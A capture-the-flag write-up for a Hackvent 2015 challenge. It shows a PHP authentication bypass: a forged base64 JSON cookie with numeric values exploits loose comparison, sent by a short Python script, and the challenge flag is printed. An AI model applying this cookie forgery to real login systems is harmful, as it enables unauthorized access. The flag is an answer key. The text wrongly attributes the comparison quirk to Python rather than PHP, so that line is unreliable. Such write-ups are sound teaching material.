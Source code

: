 ```yaml
---
layout: writeup
title: 'Dec 8: Santa’s Christmas Store'
level:
difficulty:
points:
categories: []
tags: []
flag:  HV15-0Ch0-91zo-m99Y-kxGI-8iQ5

---
```


## Challenge

*best christmas balls out there*

u wanted to buy one of these beautiful balls for christmas, but Santa's
shop keeps telling you they were sold out ... but maybe you should have
a look yourself in the ...

Hint:

![](writeupfiles/Hint_08.jpg)

## Solution

From the hint we get the following code

    <h1> my store </h1>
    <div>
    <?php

    if($_POST['user']) {
        $auth['user'] = $_POST['user'];
        $auth['password'] = $_POST['password'];
        setcookie('auth', base64_encode(json_encode($auth)));
        $_COOKIE['auth'] = base64_encode(json_encode($auth));
    }

    error_reporting(E_ALL);
    ini_set('display_errors,1');
    $cookie=json_decode(base64_decode(@$_COOKIE['auth']));

    if (!$cookie || $cookie->user != ..<hidden>..

    ?>

    ..login form..

    <?php
    } else{
    ?>

    ..where the nugget is..

    <?php
    }
    ?>
{: .language-php}

From the code we see that if the user has filled in the form, a cookie
is returned with a base64 encoded json representation of the form data.
For example filling in `admin:admin` yields the following
cookie (un base64'ed here):

    {"user":"admin",password":"admin"}

If no data is provided in the POST request, the value stored in the
cookie is used. How does this help us? Well, if the cookie is used to
send username and password,
we can do a bit more than if we use the form. For instance use numbers
as values instead of strings.

Python string comparisons can be tricky, and if `==` is used rather than
`===`, weird things can happen. For instance "somestring" == 0 always
evaluates to `true`! So we post a request with a cookie that looks like

    {"user":0,"password":0}

using python:

    import requests
    import base64

    # the url
    url="http://hackvent.hacking-lab.com/xMasStore_wqbrGjHxxZ9YkbfiKiGC/index.php"

    # create our cookie
    cookiestring='{"user":0,"password":0}'
    cookiestringb64=base64.b64encode(cookiestring)
    cookies=dict(auth=cookiestringb64)

    # post our request
    r=requests.post(url, cookies=cookies)

    # print the response
    print r.text
{: .language-python}

response html page:

    <!doctype html>
    <html><head><title>Santa's Christmas Store - Best Christmas Balls out there - AdminCP</title>
    </head>
    <body>
    <h1>Santa's Christmas Store - Best Christmas Balls out there - AdminCP</h1>
    <div>
          <p>Welcome admin! Here is your daily goodie: <b>HV15-0Ch0-91zo-m99Y-kxGI-8iQ5</b></p>
    </div>
    <h1>NO NEED TO BF (BRUTEFORCE) THIS CHALLENGE, AS WITH ALL CHALLENGES IN HACKVENT, THX!</h1>
    </body>
    </html>
{: .language-html}



